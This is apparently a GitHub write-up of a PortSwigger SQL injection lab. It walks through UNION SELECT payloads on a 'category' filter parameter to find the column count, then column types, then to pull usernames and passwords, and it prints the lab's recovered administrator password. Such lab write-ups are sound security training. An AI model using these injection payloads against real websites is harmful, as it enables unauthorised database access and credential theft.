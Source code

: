 ## Welcome, my friend. Today we will start the [11. SQLLI lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/c8e9540f-323a-4b0b-afad-359ffcc72403)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/509c1ff5-0d34-4795-9643-92b4fd6afc42)


### We discover this page and find category paramater ```/filter?category=```.
### Let's test and inject this param:

```
filter?category=' UNION SELECT NULL,NULL--
```

![image](https://github.com/user-attachments/assets/bd8baed3-1162-484c-8038-d2607b27c292)

### Let's test types columns are integer or string:

```
filter?category=' UNION SELECT 'a',NULL--
```

![image](https://github.com/user-attachments/assets/3d7288fd-c059-4bd1-9448-eefdfcedaab2)

### Ok, The first column is integer, Let's try in second column:

```
filter?category=' UNION SELECT NULL,'a'--
```

![image](https://github.com/user-attachments/assets/6037c9cf-eb70-40e0-836e-bf950b6ebd86)



### We know that The database contains a different table called ```users```, with columns called ```username``` and ```password```

![image](https://github.com/user-attachments/assets/8d1cd5d3-de40-4310-b326-f94a37e04d17)

### Now, We will using following payload:

```
filter?category=' UNION SELECT NULL,username|| ':' ||password FROM users--
```

![image](https://github.com/user-attachments/assets/adc24e4c-4e70-42e0-9359-f83240c9592d)

### We got on ```administrator``` account, Let's login with credential:

```
administrator:mq1pufsj1h5ud7mb559t
```

![image](https://github.com/user-attachments/assets/e46444fc-8e89-4b6d-91ba-2e8a245a4baa)

-------------------------


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
